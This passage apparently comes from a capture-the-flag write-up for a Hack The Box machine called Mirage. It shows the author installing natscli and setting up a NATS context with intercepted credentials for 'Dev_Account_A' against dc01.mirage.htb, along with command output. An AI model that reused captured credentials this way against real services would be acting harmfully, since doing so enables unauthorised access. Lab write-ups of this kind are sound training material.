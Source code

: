 > Successfully intercepted credentials.

![Credentials](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExa3ljc2Q0d3A4bXRnanJuMWJzNWJ3MXMwOTc4aTE4YzJrc2M0NjBkNCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/qM4G18VwHDdjljPi9K/giphy.gif)

---

## ⚙️ Install [`natscli`](https://github.com/nats-io/natscli)

Now we install and configure `natscli` to interact using the credentials we captured:

```bash
go install github.com/nats-io/natscli/nats@latest
```

---

## 🔐 Credential Access & Validation (MITRE ATT&CK: Credential Access)

### 🛠️ Configure NATS Context

Run this to create a context with the credentials we captured:

```bash
~/go/bin/nats context add dev-nats \
  --server nats://dc01.mirage.htb:4222 \
  --user Dev_Account_A \
  --password 'REDACTED' \
  --description "Dev access"
```

> Change the password according the credentials!

**Result:**

```bash
NATS Configuration Context "dev-nats"

  Description: Dev access
  Server URLs: nats://dc01.mirage.htb:4222
     Username: Dev_Account_A
     Password: ******************
         Path: /home/kali/.config/nats/context/dev-nats.json
```

### ✅ Validated

After that, check:

```bash
nats context ls
```

```bash
╭────────────────────────╮
│     Known Contexts     │
├──────────┬─────────────┤
│ Name     │ Description │
├──────────┼─────────────┤
│ dev-nats │ Dev access  │
╰──────────┴─────────────╯
```

